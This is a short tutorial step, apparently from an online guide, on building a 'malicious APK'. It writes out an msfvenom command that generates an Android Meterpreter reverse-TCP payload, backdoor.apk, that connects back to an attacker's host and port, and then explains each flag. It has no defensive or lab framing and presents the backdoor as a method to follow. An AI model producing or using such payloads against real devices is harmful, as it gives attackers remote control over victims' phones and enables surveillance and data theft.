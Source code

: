 # Malicious APK

In this step, we will generate a malicious APK using the msfvenom tool.
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -o backdoor.apk`

The command above uses `msfvenom` to create a malicious payload for an Android device. This tool merges the functionalities of two older Metasploit utilities, `msfpayload` and `msfencode`.

- `-p android/meterpreter/reverse_tcp`
1. "-p" specifies the payload type.
2. "android/meterpreter/reverse_tcp" means the payload is for an Android device, and it creates a reverse TCP connection.

With a reverse TCP connection, the target (Android device) will connect back to the attacker's system (instead of the attacker directly accessing the target).

- `LHOST=192.168.1.100`

This is the local host IP address (the attacker's machine) that the target will connect back to.
- `LPORT=5555`

This is the local port on the attacker's machine that will listen for the connection. Port 5555 is used here.

- `-o backdoor.apk`

The -o option specifies the output file. Here, the payload will be embedded in an Android APK file named backdoor.apk.

